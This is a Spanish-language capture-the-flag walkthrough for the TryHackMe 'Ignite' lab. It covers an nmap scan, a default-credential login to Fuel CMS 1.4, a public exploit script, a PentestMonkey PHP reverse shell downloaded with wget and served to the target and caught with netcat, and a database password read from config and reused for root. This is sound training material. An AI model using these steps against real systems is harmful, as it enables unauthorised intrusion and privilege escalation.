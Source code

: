 # Guía de Explotación - TryHackMe Ignite

## Reconocimiento

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y demás información relevante:

``nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA``

Explicación de los parámetros:
1. `-T4` -> Define la velocidad del escaneo.
2. `--min-rate=10000` -> Envía al menos 10,000 paquetes por segundo.
3. `-p-` -> Escanea todos los puertos disponibles.
4. `-A` -> Activa un escaneo agresivo para obtener más información.

![Imagen1](/Iginite/assets/2025-02-06%2018_06_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El escaneo revela que el único puerto abierto es el **80/tcp**, donde se ejecuta un servidor web Apache con **Fuel CMS**. Además, el archivo `robots.txt` indica que la página de inicio de sesión del CMS se encuentra en `/fuel`.

## Explotación de la Web

Accedemos al sitio web en el puerto 80:

![Imagen2](/Iginite/assets/Captura%20de%20pantalla%202025-02-06%20194100.png)

Desde la página principal de Fuel CMS, intentamos iniciar sesión con las credenciales por defecto ``admin:admin``

`http://DIRECCION_DE_LA_WEB_ATACADA/fuel`

![Imagen3](/Iginite/assets/2025-02-06%2018_08_44-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El sesión es exitoso, por lo que accederemos al panel de control:

![Imagen4](/Iginite/assets/2025-02-06%2018_09_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Al hacer clic en "Click here for your site documentation", obtenemos la versión del CMS instalada, en este caso, **Fuel CMS 1.4**.

![Imagen5](/Iginite/assets/2025-02-06%2018_11_28-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Buscando en Google vulnerabilidades para esta versión, encontramos un exploit para **Fuel CMS 1.4.1**, por lo que lo descargamos.

![Imagen6](</Iginite/assets/2025-02-06 18_14_27-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos el exploit con:

``python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA``

![Imagen7](</Iginite/assets/2025-02-06 18_38_46-KaliLinux-Hacking - VMware Workstation.png>)

Descargamos una **reverse shell en PHP** desde PentestMonkey:

``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``

![Imagen8](</Iginite/assets/2025-02-06 18_41_01-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos y editamos el archivo `.php`, reemplazando la IP y el puerto:

```php
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![Imagen9](</Iginite/assets/2025-02-06 18_42_44-KaliLinux-Hacking - VMware Workstation.png>)

Levantamos un servidor web en nuestra máquina atacante:

``python3 -m http.server 80``

![Imagen10](</Iginite/assets/2025-02-06 18_48_50-KaliLinux-Hacking - VMware Workstation.png>)

Desde el servidor comprometido, descargamos la reverse shell:

![Imagen11](</Iginite/assets/2025-02-06 18_50_09-KaliLinux-Hacking - VMware Workstation.png>)

Antes de ejecutarla, ponemos en escucha nuestro puerto con Netcat:

``nc -nlvp PUERTO_CONFIGURADO``

![Imagen12](</Iginite/assets/2025-02-06 19_01_48-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos la reverse shell accediendo desde el navegador:

``http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL``

![Imagen13](</Iginite/assets/2025-02-06 19_07_51-KaliLinux-Hacking - VMware Workstation.png>)

## Comprometiendo la Máquina

Si todo ha funcionado correctamente, obtenemos acceso como `www-data` en el sistema remoto:

``whoami``

![Imagen14](</Iginite/assets/2025-02-06 19_08_15-KaliLinux-Hacking - VMware Workstation.png>)

Para mejorar la shell, ejecutamos:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL> + Z
stty raw -echo; fg
```

![Imagen15](</Iginite/assets/2025-02-06 19_09_34-KaliLinux-Hacking - VMware Workstation.png>)

Buscamos la primera flag dentro del **home** del usuario comprometido `www-data`:

``cat flag.txt``

![Imagen16](</Iginite/assets/2025-02-06 19_10_53-KaliLinux-Hacking - VMware Workstation.png>)

## Escalada de Privilegios

Revisamos la configuración de Fuel CMS en:

``fuel/application/config/database.php``

![Imagen17](</Iginite/assets/2025-02-06 19_11_51-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos la contraseña con:

``cat database.php | grep "pass"``

![Imagen18](</Iginite/assets/2025-02-06 19_16_22-KaliLinux-Hacking - VMware Workstation.png>)

Probamos la contraseña con `su -` para obtener acceso root:

``su -``

Ingresamos la contraseña obtenida (`mememe`).

![Imagen19](</Iginite/assets/2025-02-06 19_19_22-KaliLinux-Hacking - VMware Workstation.png>)

Ya como root, buscamos y mostramos la flag final:

``cat /root/root.txt``

![Imagen20](</Iginite/assets/2025-02-06 19_19_53-KaliLinux-Hacking - VMware Workstation.png>)

¡Máquina comprometida con éxito!

